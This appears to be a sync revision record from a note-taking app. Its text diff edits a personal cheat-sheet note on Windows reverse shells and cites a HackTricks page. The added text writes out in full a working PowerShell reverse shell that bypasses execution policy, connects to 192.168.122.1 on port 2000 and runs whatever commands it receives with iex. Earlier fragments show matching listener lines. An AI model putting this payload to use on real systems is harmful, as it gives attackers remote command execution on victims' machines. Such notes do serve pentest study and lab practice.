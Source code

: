 id: 2c4e49c4a2a5405abe1feabb28ceb954
parent_id: 648dfcec2ac04f91a7994dffdfd0ae40
item_type: 1
item_id: 1a72f4e7464d467d810fc01a3adf9ed0
item_updated_time: 1643601792981
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"nd shell\"],[-1,\": \"],[1,\"\\\n\\\n\"],[0,\"powershe\"]],\"start1\":106,\"start2\":106,\"length1\":18,\"length2\":18},{\"diffs\":[[0,\"\\\npowershell \"],[1,\"-exec bypass \"],[0,\"-c \\\"$listene\"]],\"start1\":115,\"start2\":115,\"length1\":24,\"length2\":37},{\"diffs\":[[0,\"ener\"],[-1,\"): powershell\"],[1,\" \\\\[Use NetCat\\\\]):\\\n\\\npowershell -exec bypass\"],[0,\" -c \"]],\"start1\":764,\"start2\":764,\"length1\":21,\"length2\":50},{\"diffs\":[[0,\"ent('10.\"],[-1,\" \"],[0,\"11.0.4',\"]],\"start1\":861,\"start2\":861,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"Close()\\\"\"],[1,\"\\\n\\\nURL for more info\\\n\\\nhttps://book.hacktricks.xyz/shells/shells/windows\\\n\\\npowershell -exec bypass -c \\\"$client = New-Object System.Net.Sockets.TCPClient('192.168.122.1',2000); $stream = $client.GetStream(); \\\\[byte\\\\[\\\\]\\\\]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\\\\[text.encoding\\\\]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\\\"\"]],\"start1\":1314,\"start2\":1314,\"length1\":8,\"length2\":620}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-31T04:03:37.727Z
created_time: 2022-01-31T04:03:37.727Z
type_: 13